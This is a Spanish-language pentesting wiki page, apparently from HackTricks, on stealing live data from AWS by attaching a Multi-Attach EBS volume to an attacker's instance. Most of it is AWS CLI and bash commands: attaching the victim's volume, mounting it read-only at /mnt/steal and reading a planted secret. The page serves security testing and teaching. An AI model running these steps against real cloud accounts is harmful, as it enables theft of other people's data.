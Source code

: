 # AWS - Live Data Theft via EBS Multi-Attach

{{#include ../../../../banners/hacktricks-training.md}}

## Resumen
Abusar de EBS Multi-Attach para leer desde un volumen de datos io1/io2 en vivo adjuntando el mismo volumen a una instancia controlada por el atacante en la misma Availability Zone (AZ). Montar el volumen compartido en modo read-only permite acceso inmediato a archivos en uso sin crear snapshots.

## Requisitos
- Volumen objetivo: io1 o io2 creado con `--multi-attach-enabled` en la misma AZ que la instancia del atacante.
- Permisos: `ec2:AttachVolume`, `ec2:DescribeVolumes`, `ec2:DescribeInstances` sobre el volumen/instancias objetivo.
- Infraestructura: tipos de instancia basados en Nitro que soportan Multi-Attach (familias C5/M5/R5, etc.).

## Notas
- Montar en read-only con `-o ro,noload` para reducir el riesgo de corrupción y evitar replays del journal.
- En instancias Nitro, el dispositivo EBS NVMe expone una ruta estable `/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_vol...` (ayuda más abajo).

## Preparar un volumen io2 con Multi-Attach y adjuntarlo a la víctima

Ejemplo (crearlo en `us-east-1a` y adjuntarlo a la víctima):
```bash
AZ=us-east-1a
# Create io2 volume with Multi-Attach enabled
VOL_ID=$(aws ec2 create-volume \
--size 10 \
--volume-type io2 \
--iops 1000 \
--availability-zone $AZ \
--multi-attach-enabled \
--tag-specifications 'ResourceType=volume,Tags=[{Key=Name,Value=multi-shared}]' \
--query 'VolumeId' --output text)

# Attach to victim instance
aws ec2 attach-volume --volume-id $VOL_ID --instance-id $VICTIM_INSTANCE --device /dev/sdf
```
En la víctima, formatea/monta el nuevo volumen y escribe datos sensibles (ilustrativo):
```bash
VOLNOHYP="vol${VOL_ID#vol-}"
DEV="/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_${VOLNOHYP}"
sudo mkfs.ext4 -F "$DEV"
sudo mkdir -p /mnt/shared
sudo mount "$DEV" /mnt/shared
echo 'secret-token-ABC123' | sudo tee /mnt/shared/secret.txt
sudo sync
```
## Adjuntar el mismo volumen a la attacker instance
```bash
aws ec2 attach-volume --volume-id $VOL_ID --instance-id $ATTACKER_INSTANCE --device /dev/sdf
```
## Montar en modo de solo lectura en el attacker y leer datos
```bash
VOLNOHYP="vol${VOL_ID#vol-}"
DEV="/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_${VOLNOHYP}"
sudo mkdir -p /mnt/steal
sudo mount -o ro,noload "$DEV" /mnt/steal
sudo cat /mnt/steal/secret.txt
```
Resultado esperado: El mismo `VOL_ID` muestra múltiples `Attachments` (víctima y atacante) y el atacante puede leer archivos escritos por la víctima sin crear ningún snapshot.
```bash
aws ec2 describe-volumes --volume-ids $VOL_ID \
--query 'Volumes[0].Attachments[*].{InstanceId:InstanceId,State:State,Device:Device}'
```
<details>
<summary>Ayuda: encontrar la ruta del dispositivo NVMe por Volume ID</summary>

En instancias Nitro, usa la ruta by-id estable que incorpora el Volume ID (quita el guion después de `vol`):
</details>
```bash
VOLNOHYP="vol${VOL_ID#vol-}"
ls -l /dev/disk/by-id/ | grep "$VOLNOHYP"
# -> nvme-Amazon_Elastic_Block_Store_volXXXXXXXX...
```
</details>

## Impacto
- Acceso de lectura inmediato a los datos en tiempo real del volumen EBS objetivo sin generar snapshots.
- Si está montado read-write, el atacante puede manipular el filesystem de la víctima (riesgo de corrupción).

{{#include ../../../../banners/hacktricks-training.md}}
